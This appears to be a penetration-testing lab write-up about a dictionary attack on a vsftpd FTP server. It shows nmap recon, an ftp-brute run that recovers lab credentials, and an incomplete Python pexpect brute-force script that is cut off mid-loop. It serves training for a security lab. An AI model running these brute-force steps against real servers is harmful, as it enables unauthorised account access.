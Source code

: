 ***

#### Lab 3

> 🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=520)
>
> * Target IP: `192.14.30.3`
> * Dicotionary attack on `vsftpd` server
> * _FTP server terminates the session after 3 attemps_

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

* Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 _billy_'s password is `carlos`

* A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
* `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
```